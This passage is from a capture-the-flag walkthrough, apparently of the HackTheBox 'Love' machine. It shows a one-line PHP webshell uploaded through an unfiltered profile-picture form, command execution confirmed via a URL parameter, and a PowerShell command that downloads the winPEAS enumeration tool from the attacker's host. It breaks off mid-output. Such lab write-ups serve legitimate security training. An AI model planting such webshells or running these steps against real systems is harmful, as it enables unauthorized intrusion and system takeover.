 The profile picture is the first target that comes to mind, as it’s the chance
to upload something. It looks like zero filtering is in place, as if I just
select a simple PHP webshell and upload it as `cmd.php`, it doesn’t complain.

    
    
    <?php system($_REQUEST["cmd"]); ?>
    

The image is now broken at the top:

![image-20210721151521100](https://0xdfimages.gitlab.io/img/image-20210721151521100.png)

Looking at the source for the page, it saved the file as `cmd.php`:

![image-20210721151547209](https://0xdfimages.gitlab.io/img/image-20210721151547209.png)

Visiting `http://love.htb/images/cmd.php` returns an error about missing
`cmd`:

![image-20210721151626831](https://0xdfimages.gitlab.io/img/image-20210721151626831.png)

Adding `?cmd=whoami` to the end shows I have execution:

![image-20210721151651843](https://0xdfimages.gitlab.io/img/image-20210721151651843.png)

To get a shell from here, I could use a PHP reverse shell, or upload `nc.exe`
or a [Nishang](https://github.com/samratashok/nishang) PowerShell shell.

## Shell as SYSTEM

### Enumeration

After looking around the filesystem a bit manually, I opted to run
[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-
suite/tree/master/winPEAS). After cloning the repo to my VM, I went into the
directory with `winPEAS.exe` and started a Python web server (`python3 -m
http.server 80`).

From Love, I’ll use `PowerShell` to upload the file:

    
    
    C:\ProgramData>powershell wget http://10.10.14.6/winPEAS.exe -outfile wp.exe
    

There’s a hit on the webserver, and the file is present. Now I’ll run it with
`.\wp.exe`. There’s a ton of output, so I’ll just highlight the interesting
parts.

It finds a PowerShell history file:

    
    
      [+] PowerShell Settings
        PowerShell v2 Version: 2.0
        PowerShell v5 Version: 5.1.19041.1
        Transcription Settings:
        Module Logging Settings:
        Scriptblock Logging Settings:
        PS history file: C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                             
        PS history size: 51B  
    